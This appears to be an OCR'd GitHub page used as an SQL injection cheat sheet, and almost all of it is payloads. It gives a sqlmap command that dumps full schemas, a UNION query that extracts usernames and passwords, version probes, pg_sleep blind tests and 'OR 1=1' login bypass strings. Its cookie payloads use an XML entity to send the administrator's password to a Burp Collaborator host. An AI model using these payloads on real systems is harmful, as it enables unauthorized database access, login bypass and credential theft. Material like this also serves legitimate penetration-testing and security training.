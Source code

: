 <h1>SQL Injection</h1>

<p>-- o #</p>

<h2>Reflected SQL Injection:</h2>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h4>POC</h4>
<code>https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--</code>

<h5>Version</h5>
<p>First detect numbers of columns</p>
<p><code>' UNION SELECT NULL,@@version--</code></p>
<p><code>' UNION SELECT NULL,NULL,* FROM v$version--</code></p>
<p><code>' UNION SELECT banner FROM v$version--</code></p>
<p><code>' UNION SELECT version FROM v$instance--</code></p>
<p><code>' UNION SELECT version()--</code></p>
<hr>
<h2>Blind SQL Injection:</h2>
<p><code>';SELECT PG_SLEEP(5)--</code></p>
<p><code>'||pg_sleep(10)--</code></p>
<hr>
<h2>SQL Login</h2>
<p>In nickname, email and password test for:</p>
<p>name'--</p>
<p>pass'--</p>
<p>'+OR+1=1--</p>
<p>'+OR+2=2--</p>
<p>'+OR+5=5--</p>
<p>'+OR+'E'='E'--</p>
<hr>
<h2>Cookies</h2>
# Test cookies for https request - Blind:
```html
  <code>TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

<p>Then for credentials.</p>

<p><code>TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.</code></p>
